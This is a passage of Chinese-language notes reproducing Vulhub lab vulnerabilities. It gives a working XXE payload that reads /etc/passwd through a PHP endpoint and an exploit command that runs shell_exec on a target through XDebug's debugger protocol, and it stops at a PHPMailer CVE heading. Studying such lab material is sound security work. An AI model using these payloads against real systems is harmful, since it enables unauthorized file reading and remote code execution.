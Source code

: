 用python2执行：

`python exp.py your-ip 8080 100：`


# **[PHP环境 XML外部实体注入漏洞（`XXE`）](https://vulhub.org/#/environments/php/php_xxe/)**


## **漏洞原理**

libxml2.9.0以后，默认不解析外部实体，导致`XXE漏洞`逐渐消亡。为了演示PHP环境下的XXE漏洞，本例会将libxml2.8.0版本编译进PHP中。PHP版本并不影响XXE利用。

## **漏洞利用：**

改包变成`POST` 
在body里加入下面的代码：

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```

# **[XDebug 远程调试漏洞（代码执行）](https://vulhub.org/#/environments/php/xdebug-rce/)**

## **[漏洞原理]**
我们访问`http://target/index.php?XDEBUG_SESSION_START=phpstorm`，目标服务器的XDebug将会连接访问者的IP（或X-Forwarded-For头指定的地址）并通过dbgp协议与其通信，我们通过dbgp中提供的eval方法即可在目标服务器上执行任意PHP代码。


## 漏洞利用

因为需要使用dbgp协议与目标服务器通信，所以无法用http协议复现漏洞。

我编写了一个漏洞复现脚本，`指定目标web地址、待执行的php代码即可`：

```
# 要求用python3并安装requests库
python3 exp.py -t http://127.0.0.1:8080/index.php -c 'shell_exec('id');'
```

# **[PHPMailer 任意文件读取漏洞（CVE-2017-5223）](https://vulhub.org/#/environments/phpmailer/CVE-2017-5223/)**

## **[漏洞原理](https://www.freebuf.com/vuls/124820.html)**
